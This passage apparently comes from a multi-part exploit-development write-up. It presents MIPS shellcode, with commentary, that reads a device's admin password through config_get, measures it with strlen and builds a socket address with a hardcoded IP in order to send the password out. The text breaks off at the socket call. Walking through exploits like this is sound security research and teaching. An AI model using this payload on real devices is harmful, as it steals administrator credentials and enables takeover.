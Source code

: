 Now we have tested the decoder and the fix shellcodes, we can move on to creating a larger payload.

### Breakdown

The input parameters are as follows:

| Register | Value |
| - | - |
| *$s0* | Address of *strlen* function |
| *$s1* | Address of *0x1010200* (config ID of admin password - refer to part 3) |
| *$s2* | Address we will use to store the admin password |
| *$s3* | Address of *socket* function |

- First, we call **config_get(0x1010200, buffer)**, remember the the instruction after **jalr** is taken before the jump takes place (thanks branch delay slot):

```
-mipsasm
lw $a0, ($s1)       /* s1 contains address of 0x1010200 */
lui $v0, 0x8000 
or $v0, 0x89e4
jalr $v0            /* config_get(0x1010200 (*0x80236c4c), pwd_buffer (0x801d3754)) */
move $a1, $s2       /* s2 contains pwd buffer address */
```

- Next, call **strlen** on the buffer containing the admin password:

```
-mipsasm
jalr $s0            /* len = strlen(pwd_buffer (0x801d3754)) */
move $a0, $s2       /* s2 contains pwd buffer address */
```

- Store the length in *$s0*, and construct the *sockaddr* containing the port and IP we will use:

```
-mipsasm
move $s0, $v0       /* v0 contains length of password */
/* create sockaddr stuff and put into t0 */
lui $v0, 0x800f 
or $v0, $v0, 0x9528 
lw $v0, ($v0)       /* load value of hardcoded_afinet into v0 */
lui $t0, 0x802a 
or $s1, $t0, 0xbf10 
sw $v0, ($s1)       /* save hardcoded_afinet value to address of sockaddr */
addiu $t0, $s1, 0x4 
lui $v0, 0x02bc 
or $v0, $v0, 0xa8c0 
sw $v0, ($t0)       /* save hardcoded IP address to sockaddr + 4 */
```

- Call **socket(2, 2, 0)** to create the socket and get the *sockfd*:
